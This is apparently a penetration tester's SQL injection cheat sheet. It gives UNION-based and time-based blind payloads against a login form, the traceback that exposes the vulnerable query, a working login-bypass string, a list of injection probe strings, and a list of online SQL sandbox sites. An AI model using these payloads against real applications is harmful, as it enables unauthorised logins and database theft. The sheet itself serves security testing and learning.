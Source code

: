 SQLI

## Tips 

- If you try an injection and you have a good error message, analyze it before going on.

## Example of an error with a login screen
 
- Payload : ```' UNION select table_schema,table_name FROM information_Schema.tables;#```
- Error : 
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
OperationalError: (1222, 'The used SELECT statements have a different number of columns')
```

Here we can see that there is a select on the admin table. So if I change my payload with this information, and an always true statement :
username: `' UNION select 1 FROM admins WHERE 1=1;#`
pass: `1`
We are logged in !

## Blind SQLI with sleep extracting username and password on login screen

- Always with our previous login screen, we will try to extract the username
- `'UNION SELECT SLEEP(1*CHAR_LENGTH(username)) FROM admins;#`

## List

/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'  <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='

---

## Sandboxes databases
By @hackerscrolls

SQL Fiddle (sqlfiddle.com)
DB Fiddle (db-fiddle.com)
EverSQL (eversql.com)

EverSQL supports:

Oracle
MySQL
MariaDB
PostreSQL
MS SQL Server
Percona Server
Amazon Aurora MySQL

DB Fiddle supports:

MySQL
SQLite
PostgreSQL
(multiple versions)

SQL Fiddle supports:

Oracle
SQLite
MySQL
PostgreSQL
MS SQL Server 2017

